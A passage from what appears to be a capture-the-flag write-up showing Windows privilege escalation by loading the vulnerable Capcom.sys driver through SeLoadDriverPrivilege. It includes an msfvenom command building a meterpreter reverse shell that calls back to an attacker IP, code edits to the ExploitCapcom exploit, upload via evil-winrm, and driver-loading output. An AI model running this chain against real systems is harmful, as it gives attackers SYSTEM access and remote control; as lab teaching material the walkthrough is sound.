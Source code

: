 https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LTyWsUdKa48PyMRyZ4I%2F-LTyZ9IkoofuWRxlNpUG%2FCapcom.sys?alt=media&token=e4417fb3-f2fd-42ef-9000-d410bc6ceb54

Driver Loader:

https://github.com/TarlogicSecurity/EoPLoadDriver

Capcom SYSTEM Priv-esc Exploit:

https://github.com/tandasat/ExploitCapcom

We'll need to fire up a Windows VM with Visual Studio to compile these correctly.

Before we compile the exploit, we need to create a reverse shell with msfvenom that we can tell the exploit to call:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.xx.xx LPORT=1234 -f exe > shell.exe
```

Now, we need to edit ExploitCapcom.cpp slightly, and change the TCHAR CommandLine[] in the function LaunchShell() to the following:

```
TCHAR CommandLine[] = TEXT("C:\\.tmp\\shell.exe");
```

## Compiling our Exploit

In a nutshell, we can load the ExploitCapcom .sln file into Visual Studio, and compile it first by clicking Build -> Build Solution. We'll grab the .exe it creates and move it to our attacking machine. Then, we'll remove ExploitCapcom.cpp from the Source Files in the right pane, and add our eoploaddriver.cpp file to the Source Files. We'll now build the solution again, and grab our new .exe file. 

Note: Visual Studio was looking for a stdafx.h file to pull in, and the header file for ExploitCapcom was sufficient to also build our eoploaddriver exploit.

Once we have all of the files, we can upload then to the box with evil-winrm.

**Checklist:**

*Capcom.sys*
*ExploitCapcom.exe*
*eoploaddriver.exe*
*shell.exe*

## Getting SYSTEM

Now that we have all of the files uploaded to the victim machine, we can load our driver:

```
$ eoploaddriver.exe System\CurrentControlSet\MyService C:\.tmp\Capcom.sys
...
[+] Enabling SeLoadDriverPrivilege                                          
[+] SeLoadDriverPrivilege Enabled                                           [+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\MyService
NTSTATUS: 00000000, WinError: 0
```

